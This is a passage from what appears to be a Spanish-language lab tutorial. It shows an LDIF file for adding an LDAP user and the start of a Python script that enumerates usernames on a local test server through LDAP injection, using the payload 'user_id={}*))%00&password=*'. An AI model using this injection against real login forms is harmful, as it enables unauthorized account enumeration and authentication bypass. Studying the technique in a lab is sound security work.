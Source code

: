 ```new_user.ldif
dn: uid=dobliuw,dc=example,dc=org
uid: dobliuw
cn: dobliuw
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/dobliuw
uidNumber: 14583102
gidNumber: 14564100
userPassword: dobliuw123
mail: dobliuw@example.org
description: El mejor hacker del mundo papaaaaa
telephoneNumber: +54 52345245
```

### Y de esta manera podemos crear un simple script en python para enumerar usuarios: 

```python
#!/usr/bin/python3
from pwn import * 
import sys, requests, time, string, signal 

# Ctrl + C 

def ctrl_c(signal, frame):
    print("\n\n\t[!] Quiting...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars

url = "http://localhost:8888"
characters = string.ascii_lowercase
headers = {"Content-Type":"application/x-www-form-urlencoded"}
#burp_proxy = {'http': 'http://127.0.0.1/8080'}

# Bin 

p1 = log.progress("Brute Force")
p2 = log.progress("Users")

def getInitialUsers(): 
    
    users = []

    p1.status("Initializing brute force process")
    time.sleep(5)

    for character in characters: 
        payload = "user_id={}*))%00&password=*&login=1&submit=Submit".format(character)
        p1.status("Sending payload: {}".format(payload))
        r = requests.post(url, headers=headers, data=payload, allow_redirects=False) #proxies=burp_proxy
        if r.status_code == 301: 
            users.append(character)

    return users


```